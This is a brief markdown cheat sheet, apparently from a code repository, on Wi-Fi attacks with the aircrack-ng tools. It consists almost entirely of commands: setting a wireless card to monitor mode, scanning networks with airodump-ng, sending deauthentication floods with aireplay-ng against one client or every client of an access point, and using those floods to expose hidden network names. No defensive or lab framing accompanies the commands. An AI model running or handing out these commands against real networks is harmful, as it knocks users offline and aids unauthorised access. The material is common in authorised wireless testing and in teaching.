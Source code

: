 #### Check interface mode 

```bash
iwconfig $IFACE
```

#### Check interface status

```bash
ifconfig $IFACE
```

#### Set monitor mode 

```
airmon-ng check kill
ifconfig $IFACE down
iwconfig $IFACE mode monitor
ifconfig $IFACE up
```


#### List networks

1. Set monitor mode

2. Run Airodump-ng-ng

```bash
airodump-ng $IFACE -c $CHANNEL -e $ESSID
```


#### Deauthentication

1. Only one client

```bash
 aireplay-ng -0 $NUMBER_DEAUTH_PACKETS -a $AP_MAC -c $CLIENT_MAC $IFACE
```

2. An Access Point (= all the clients in the AP)

```bash
 aireplay-ng -0 $NUMBER_DEAUTH_PACKETS -a $AP_MAC $IFACE
```

#### Get hidden SSID

1. List networks

List the networks using Airodump-ng and get the AP's MAC address ($AP_MAC) and one from a client ($CLIENT_MAC). Do not stop the capture.

2. Deauthenticate

In another terminal, deauthenticate a client or all of them. When Airodump-ng captures a handshake from this network, the name or ESSID will appear in the first terminal:

```bash
aireplay-ng -0 $NUMBER_DEAUTH_PACKETS -a $AP_MAC -c $CLIENT_MAC $IFACE
```
